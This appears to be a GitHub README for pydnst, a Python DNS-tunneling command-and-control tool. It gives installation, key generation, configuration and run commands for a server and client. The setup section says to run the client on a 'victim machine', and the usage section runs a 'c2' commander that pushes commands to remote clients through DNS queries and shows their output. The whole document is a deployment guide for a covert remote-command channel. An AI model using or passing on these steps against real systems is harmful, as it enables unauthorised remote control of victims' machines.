 # pydnst
**DNS Tunneling client and server in Python**

<a name="installation"></a>
## INSTALLATION

    pip3 install pydnst
    
For convenience the client and server are in the same package, however the "rich" dependency is only used by the server.

<a name="features"></a>
## FEATURES

pydnst is a DNS tunneling implementation in Python, supporting Linux only.  
The client sends keep-alive requests every 30 seconds. If the server has a command to send to a specific client, it sends it in a response to a keep-alive. Then the client sends another query containing the command response.  
The server can manage up to 250 clients, communication is encrypted with a unique Fernet key per client, generated on the fly and shared using RSA encryption.  
A simple rich interface on the server side enables to send commands to specific clients, and watch the responses in real-time.  
The client being implemented in Python is not stealth.  

<a name="setup"></a>
## SET UP

First acquire access to a machine with a public IP, this is where the pydnst server will run.  
Then acquire a DNS name, as short as possible, and configure its nameservers with glue records pointing to your public IP.  
You can then configure your pydnst.toml field DNST_SERVER_NAME, and run pydnst client on your victim machine.  


<a name="usage"></a>
## USAGE

###Install the pydnst package on client and server

    pip3 install pydnst
    python3 -m pydnst --help
    
###Generate certificates (recommended), to encrypt the shared key transfer between client and server
This creates server_private.pem (copy to server) and server_public.pem (copy to client).
After copying server_private.pem to server, don't forget to chmod 600.

    python3 -m pydnst create_certificates
    
###Generate configuration
This creates pydnst.toml : edit if needed and then copy to client and server.  
On client, edit the MAIN_INTERFACE to use the DNS server of this interface, or DNS_SERVER_ADDRESS to circumvent it.  
On server, edit the LISTENING_INTERFACE.  
On both, specify the DNST_SERVER_NAME (the DNS name purchased).  

    python3 -m pydnst config
    
###On server
In one terminal, run the server (pydnst.toml must be in the current directory) :   
Logs are under pydnst.log  

    python3 -m pydnst server run
    
In another terminal, run the commander (pydnst.toml must be in the current directory), which enables to send commands and watch responses in real-time.  

    python3 -m pydnst server c2
    
###On client
In one terminal, run the client (pydnst.toml must be in the current directory) :   
Logs are under pydnst.log  

    python3 -m pydnst client run


    
